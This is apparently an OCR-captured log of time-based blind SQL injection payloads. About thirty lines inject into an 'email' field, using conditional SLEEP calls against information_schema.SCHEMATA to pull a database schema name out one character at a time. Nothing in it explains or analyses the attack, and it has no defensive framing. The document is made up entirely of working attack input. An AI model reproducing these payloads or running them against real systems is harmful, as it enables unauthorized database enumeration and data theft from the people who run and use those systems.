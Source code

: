 {email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,11,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,11,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,11,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=104,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,11,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>104,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,11,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=108,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,11,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>108,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,11,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=110,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=80,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>80,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=88,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>88,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=92,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>92,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=94,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>94,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=95,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=120,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>120,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=116,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>116,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=114,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>114,SLEEP(0.122010510204),SLEEP(0)) -- -}